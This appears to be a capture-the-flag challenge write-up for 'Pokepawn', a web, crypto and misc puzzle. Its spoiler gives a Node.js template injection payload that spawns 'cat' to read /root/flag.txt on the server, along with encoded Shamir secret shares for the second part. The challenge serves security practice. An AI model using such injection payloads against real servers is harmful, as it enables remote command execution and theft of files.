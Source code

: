 # Pokepawn
**Category:** web,crypto,misc

**Author:** \_Roko'sBasilisk\_

## Description (Pokepawn I)

Chess is more than just a table game... Can you catch 'em all and become the PokePawn master?

## Description (Pokepawn II)

And if you do catch 'em all... Please share your secrets with us!

## Credits:

Huge thanks to [cerulebell](https://www.deviantart.com/cerulebell) for letting me use his amazing chess-like pokemon illustrations!

## Points
500

## Solution

<details>
 <summary>Reveal Spoiler</summary>

### Solution for PokePawn I
Steps to solve:

1. Catch all pokepawns. (alternativerly you can tamper with the $gameSwitches client variable and change the switches to true)

2. Go to signup for the tournament and use the following payload:
`#{process.mainModule.require('child_process').spawnSync('cat', ['/root/flag.txt']).stdout}`

### Solution for PokePawn II
Gather all Shamir's secret sharing shares.

```
1-596c042805f58c6106a7a82db9912e430e9606ce444012cdd8a8f52aac90e332ca6c601a61 
2-d6e485ab4d003895d4138077afd0dd50b4279ce7978cbe1be1670de47d1206603f8b8b1bb8 -- BASE32 -> GIWWINTFGQ4DKYLCGRSDAMBTHA4TKZBUGEZTQMBXG5QWMZBQMRSDKMDCGQZDOOLDMU3TSNZYMNRGKMLCMUYTMNZQMRSTIN3EGEZDANRWGAZWMODCHBRDCYTCHA======
3-d341b5f99464863a27ea0a0102ce357d72c965d39a7110aa310c8b9f18ddeec43fd61e051a -- BINARY -> 00110011 00101101 01100100 00110011 00110100 00110001 01100010 00110101 01100110 00111001 00111001 00110100 00110110 00110100 00111000 00110110 00110011 01100001 00110010 00110111 01100101 01100001 00110000 01100001 00110000 00110001 00110000 00110010 01100011 01100101 00110011 00110101 00110111 01100100 00110111 00110010 01100011 00111001 00110110 00110101 01100100 00110011 00111001 01100001 00110111 00110001 00110001 00110000 01100001 01100001 00110011 00110001 00110000 01100011 00111000 01100010 00111001 01100110 00110001 00111000 01100100 01100100 01100101 01100101 01100011 00110100 00110011 01100110 01100100 00110110 00110001 01100101 00110000 00110101 00110001 01100001
4-422a1dedb8024384fcb216863f683e557344207a0e961b07b9fc001c7d7b4be7a2c704ddfa -- ASCII85 -> 1bCO>11;nJARo700JYI@3&G5W@PTYr3&WR)2E3L(2)R<K1c-sA2dnCO3ArU$0K3H$An*MK0k3.Q2e"UQAN+$Q@lH(uA7T:\

```
Use them to get teh flag using this:
http://point-at-infinity.org/ssss/

</details>
